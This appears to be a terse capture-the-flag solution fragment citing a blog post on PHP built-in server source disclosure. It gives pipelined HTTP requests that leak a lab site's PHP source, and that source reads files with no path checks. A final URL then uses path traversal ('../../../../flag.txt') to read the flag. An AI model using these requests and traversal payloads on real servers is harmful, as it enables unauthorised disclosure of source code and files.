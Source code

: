 https://projectdiscovery.io/blog/php-http-server-source-disclosure

GET / HTTP/1.1
Host: under-construction.hkn


GET /hello.txt HTTP/1.1


HTTP/1.1 200 OK
Host: under-construction.hkn
Date: Sat, 05 Apr 2025 15:36:29 GMT
Connection: close
Content-Type: text/plain; charset=UTF-8
Content-Length: 1529

<?php
$time = time();
$ip = $_SERVER["REMOTE_ADDR"] . PHP_EOL;
file_put_contents("logs/log.txt", "$time $ip", FILE_APPEND);
?>

<?php
$key = "e89c2f42-a3ff-403c-8369-0ad18b1d8543";
if (isset($_GET[$key])) {
    $file = $_GET[$key];
    $file_path = "logs/" . $file;

    if (file_exists($file_path)) {
        echo nl2br(file_get_contents($file_path));
    } else {
        echo "File not found";
    }
}
?>


http://under-construction.hkn/index.php?e89c2f42-a3ff-403c-8369-0ad18b1d8543=../../../../flag.txt